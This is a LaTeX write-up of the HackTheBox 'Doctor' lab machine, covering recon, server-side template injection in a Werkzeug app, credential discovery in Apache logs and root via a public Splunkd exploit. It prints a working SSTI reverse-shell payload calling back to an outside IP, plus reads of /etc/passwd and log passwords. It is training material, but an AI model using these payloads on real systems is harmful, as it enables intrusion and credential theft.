\documentclass[../main.tex]{subfiles}

\begin{document}

\section{HackTheBox Doctor}

This write up will be about the Doctor machine.

This machine is classified as an easy machine. But according to the voting, it looks more like a medium machine.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_lab.png}

\clearpage

\subsection{Recon}

First of all, we will start scanning our machine. We immediately notice an interesting open port.


\includegraphics[width=\linewidth]{images/Nicolai/doctor-nmap.png}

The point of interest in here the Splukd service. I tried to explode this one with Metasploit but unfortunately it didn't work out. According to info found online it would not be possible to log in remotely with the default user, for that we need the remote username and it is not yet in our possession.

Meanwhile, I scanned the website with Nikto and Dirb. It didn't yield any useless information. The only thing that is useful about this brute-force, we now know for sure that the website doesn't use PHP.

We navigate to the web page, it looks like a multi-page web site but every new page refers to the index. There are also no entry fields to try for an XSS exploit. After some time it catches my eye that there is an email address with a specific domain called doctors.htb.

Then I tried to set it up as my own host.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_etc_hosts.png}

With a success we can now surf to doctors.htb and we get to a login page. Unfortunately, I didn't think about performing a new nmap scan as well as a new dirb directed to this domain. It would have saved me a lot of time.

By poking around on this part of the website, I came to the fact that I can register myself and post new messages as a user.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_post_new.png}

Different methods were tried in vain, but I was sure it had to be an injection.\\
That's why I used BurpSuit to test what was happening to my requests. After a while of enumerating, I noticed that the login page unlike the website utilizes Werkzeug and very coincidentally after analyzing the header I noticed that there is an Archive page.

\begin{figure}[!h]
  \centering
  \subfloat{
\includegraphics[width=0.37\textwidth]{images/Nicolai/doctor_werkzeug.png}}
  \hfill
  \subfloat{
\includegraphics[width=0.57\textwidth]{images/Nicolai/doctor_burp_archive.png}}
\end{figure}

\clearpage
\subsection{Exploiting}

With the information I obtained from BurpSuite, I was able to search more specifically for possible exploits. The best result was the search term "python werkzeug injection". This way you could go directly to a medium page about "Server Side Template Injection". Everything seemed to be correct, as the "archive" page stores the newly posted messages in the \\
<item><title> message</title></item> format.

\subsubsection{Server Side Template Injection}

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passing in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection. 

After reading some articles on this topic, we will try to perform a test injection.
\vspace{1cm}
\begin{figure}[!h]
  \centering
  \subfloat{
\includegraphics[width=0.37\textwidth]{images/Nicolai/doctor_message.png}}
  \hfill
  \subfloat{
\includegraphics[width=0.57\textwidth]{images/Nicolai/doctor_archive_49.png}}
\end{figure}
\vspace{1cm}
We have a breakthrough, Server Side Injection works! \\
Then I enumerated possible Server Side Injection possibilities. While searching for a reverse shell injection I noticed that the python injection gets rejected constantly. However, with this script we managed to successfully start a reverse shell.

\clearpage
By posting it as a new title.
\begin{lstlisting}


{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((\"10.10.14.156\",8899));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}


\end{lstlisting}

After we posted the new message we start to listen to the 8899 ports on our host machine. Now we navigate to the archive page to activate SSTI.

We note that a reverse shell has been launched between us and the target.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_reverse_nc.png}
\clearpage
\subsubsection{User}

Then we call up a bash shell with python. In order to navigate better in this shell and use the bash functions.

\begin{lstlisting}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
\end{lstlisting}

Next, we check which accounts are available by checking the passwd file.

\begin{lstlisting}
$ cat /etc/passwd
\end{lstlisting}


\includegraphics[width=\linewidth]{images/Nicolai/doctor_cat_etcpassw.png}

With different greps and reverse grep combinations the result came out of a backup file.

\begin{lstlisting}
$ cat /var/log/apache2/backup | grep password
\end{lstlisting}
Gave as result.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_apache_passwd.png}

We combined our found information and try to login as "shaun" with password Guitar123. This is done successfully.


\includegraphics[width=0.7\linewidth]{images/Nicolai/doctor_user_flag.png}
\clearpage
\subsubsection{Root}

Enumeration for root has brought no results, nor have the various greps done so.

A good google search for possible exploits did deliver something.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_google_splunk.png}

\includegraphics[width=\linewidth]{images/Nicolai/doctor_splunkd.png}

We follow the steps necessary to install the exploit (see Gitlab).

We give the correct parameters to the script and in the meantime, we listen on our preferred port.

Note; Here, we need to use the (original) nc again, namely nc.traditional.


\includegraphics[width=\linewidth]{images/Nicolai/doctor_py_splukd_payload.png}

\includegraphics[width=\linewidth]{images/Nicolai/doctor_root.png}

By this one, we have rooted the machine.

\subsection{Conclusion}

This is the first machine I hacked on Hack The Box. In general, I'm delighted with the result and the machine was indeed not that difficult.

\subsubsection{Foothold}
The foothold of the challenge seemed to be the most difficult. I have been working on this for a long time, the difficulty here was more attention than knowledge.

So you had to be very attentive to the content of the website once the job was done, attention was again the X-factor. Personally, it would have been easier/faster if I had scanned the domain doctors.Htb after adding it to my hosts.

Also, in order to obtain a reverse shell, you had to be attending again. At first it didn't seem like any injection worked, but by analyzing each step with BurpSuite, it does yield results.
\clearpage
\subsubsection{User}
Obtaining the user flag was quite challenging. But can't say it was very difficult, the focus here was on knowledge of Linux/Apache/logs. 

Personally, it gave me an idea to create an extensive script or snippets to make it easier to scan through the logs. This would certainly be very useful for other challenges.

\subsubsection{Root}
At first sight, it seemed very difficult to obtain the root flag. But a little google search assignments brought me a ready-made solution.
You just had to enter the right parameters and voila, you are root. In principle, it was very easy.

\end{document}
